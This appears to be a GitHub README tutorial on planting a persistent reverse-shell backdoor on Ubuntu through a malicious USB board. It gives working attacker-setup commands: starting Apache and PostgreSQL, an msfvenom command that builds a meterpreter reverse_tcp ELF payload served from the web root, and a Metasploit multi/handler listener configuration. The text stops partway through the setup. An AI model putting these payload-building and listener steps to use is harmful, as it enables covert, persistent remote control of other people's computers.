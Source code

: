 # Backdoor (Linux Hacking)
The board is inserted into a free USB interface, the PC starts to download a malicious code from the attacker. This is executed on the Linux system to create a permanent (reverse) connection to the attacker. Since this connection can ever be interrupted for various reasons, a loop is built in, which sets up this connection after a predetermined period of time. It has virtually created a backdoor in the Linux system, which is always renewed. Regardless of whether the attacker is on the local network or on the Internet - he always has a permanent meter-to-peer connection and can execute further commands with the rights of the logged-in user (post-exploitation).

The attacker uses Kali Linux in the current version, the Metasploit framework and Apache as the web server. On the Linux system Ubuntu 16.04 LTS and Unity is used. This scenario can also be used with a few changes on a Linux server.


### Set up an attacker
- Postgresql, Apache2, and the Metasploit framework should be installed by default but not yet started.

  ```
  service postgresql start
  service apache2 start
  ```
- Next, the payload must be created and stored on the web server. We create the file **shell.elf** with the help of **msfvenom** and place it on the path of the web server:

  ```
  msfvenom  --platform linux  -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.0.180 LPORT=1337 -f elf > shell.elf cp shell.elf  /var/www/html
  ```
  
  Listener all response information from payload (victim's Linux OS) to attacker's computer with IP = 192.168.0.180, port number = 1337 and write a file shell.elf to html file
  For the variables LHOST (listener host) and LPORT (listener port), the IP address of the own system or the desired port is used.
  
  LHOST is also used to start a listener on a specific interface on your machine. For example:
  
  + use multi/handler
  + set payload windows/meterpreter/reverse-tcp
  + set lhost 0.0.0.0
  + set lport XXX
	

